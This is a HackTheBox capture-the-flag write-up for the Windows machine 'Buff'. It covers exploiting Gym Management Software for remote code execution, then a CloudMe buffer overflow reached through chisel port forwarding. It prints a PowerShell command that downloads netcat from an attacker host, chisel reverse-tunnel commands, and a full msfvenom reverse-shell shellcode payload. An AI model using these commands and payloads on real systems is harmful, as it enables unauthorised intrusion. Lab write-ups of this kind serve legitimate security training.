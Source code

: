 ```yaml
---
title: "HackTheBox - Buff"
author: Nasrallah
description: ""
date: 2023-03-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, tunneling, rce, chisel]
img_path: /assets/img/hackthebox/machines/buff
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

![](0.png)

## **Description**

Hello hackers, I hope you are doing well. We are doing [Buff](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). This is an easy machine box with a vulnerable management system that we exploit to get foothold. Once in we find another vulnerable service listening on a local port so we use port forwarding to be able to access the service and exploit it to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.198
Host is up (0.45s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

There is only on open port and it is 8080 running n Apache http web server.


### Web

Let's navigate to the webpage.

![](1.png)

Here we have a website about fitness, let's check the tabs at the top.

![](2.png)

On the contact page, we see the the website uses `Gym Management Software 1.0`.

Searching for this management software we find it is vulnerable to an [Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)

![](4.png)


## **Foothold**

Let's download the exploit and use it.

![](3.png)

We got command execution, but the shell is not interactive and we can't change directories.

Let's upload copy of netcat and get a reverse shell.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.17.90/ncat.exe','nc.exe')"
```

![](5.png)

Great! Let's move on.


## **Privilege Escalation**

Checking shaun's home directories we find the following

![](6.png)

There is a `CloudMe_1112.exe` executable in the Downloads directory.

Also checking listening port with `netstat -an` we see a port listening at 8888 which is CloudMe.

![](7.png)

Let's do a port forward using chisel.

On our local machine, we set up a chisel server with the following command:

```bash
./chisel server --reverse --port 9002
```

After uploading a copy of chisel to the target, we connect to the server with the following command:

```bash
.\chisel.exe client 10.10.10.10:9002 R:8888:localhost:8888
```

![](9.png)

The version of CloudMe(1.11.2) is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389) that we can exploit to get command execution.

![](8.png)

Let's download the exploit and edit it.

The first thing we should do is generate a stageless reverse shell payload using msfvenom.

```bash
└──╼ $ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9999 -b '\x00\x0A\x0D' -f python -v payload                                 130 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xbf\xd1\xbc\x30\x95\xda\xcd\xd9\x74\x24\xf4"
payload += b"\x5a\x2b\xc9\xb1\x52\x83\xea\xfc\x31\x7a\x0e"
payload += b"\x03\xab\xb2\xd2\x60\xb7\x23\x90\x8b\x47\xb4"
payload += b"\xf5\x02\xa2\x85\x35\x70\xa7\xb6\x85\xf2\xe5"
payload += b"\x3a\x6d\x56\x1d\xc8\x03\x7f\x12\x79\xa9\x59"
payload += b"\x1d\x7a\x82\x9a\x3c\xf8\xd9\xce\x9e\xc1\x11"
payload += b"\x03\xdf\x06\x4f\xee\x8d\xdf\x1b\x5d\x21\x6b"
payload += b"\x51\x5e\xca\x27\x77\xe6\x2f\xff\x76\xc7\xfe"
payload += b"\x8b\x20\xc7\x01\x5f\x59\x4e\x19\xbc\x64\x18"
payload += b"\x92\x76\x12\x9b\x72\x47\xdb\x30\xbb\x67\x2e"
payload += b"\x48\xfc\x40\xd1\x3f\xf4\xb2\x6c\x38\xc3\xc9"
payload += b"\xaa\xcd\xd7\x6a\x38\x75\x33\x8a\xed\xe0\xb0"
payload += b"\x80\x5a\x66\x9e\x84\x5d\xab\x95\xb1\xd6\x4a"
payload += b"\x79\x30\xac\x68\x5d\x18\x76\x10\xc4\xc4\xd9"
payload += b"\x2d\x16\xa7\x86\x8b\x5d\x4a\xd2\xa1\x3c\x03"
payload += b"\x17\x88\xbe\xd3\x3f\x9b\xcd\xe1\xe0\x37\x59"
payload += b"\x4a\x68\x9e\x9e\xad\x43\x66\x30\x50\x6c\x97"
payload += b"\x19\x97\x38\xc7\x31\x3e\x41\x8c\xc1\xbf\x94"
payload += b"\x03\x91\x6f\x47\xe4\x41\xd0\x37\x8c\x8b\xdf"
payload += b"\x68\xac\xb4\x35\x01\x47\x4f\xde\x24\x92\x5e"
payload += b"\x44\x51\xa0\x60\x5f\xae\x2d\x86\xf5\xa0\x7b"
payload += b"\x11\x62\x58\x26\xe9\x13\xa5\xfc\x94\x14\x2d"
payload += b"\xf3\x69\xda\xc6\x7e\x79\x8b\x26\x35\x23\x1a"
payload += b"\x38\xe3\x4b\xc0\xab\x68\x8b\x8f\xd7\x26\xdc"
payload += b"\xd8\x26\x3f\x88\xf4\x11\xe9\xae\x04\xc7\xd2"
payload += b"\x6a\xd3\x34\xdc\x73\x96\x01\xfa\x63\x6e\x89"
payload += b"\x46\xd7\x3e\xdc\x10\x81\xf8\xb6\xd2\x7b\x53"
payload += b"\x64\xbd\xeb\x22\x46\x7e\x6d\x2b\x83\x08\x91"
payload += b"\x9a\x7a\x4d\xae\x13\xeb\x59\xd7\x49\x8b\xa6"
payload += b"\x02\xca\xbb\xec\x0e\x7b\x54\xa9\xdb\x39\x39"
payload += b"\x4a\x36\x7d\x44\xc9\xb2\xfe\xb3\xd1\xb7\xfb"
payload += b"\xf8\x55\x24\x76\x90\x33\x4a\x25\x91\x11"
```

We copy this newly generated payload and replace the one in the exploit with it.

After that we setup a listener and run the exploit.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
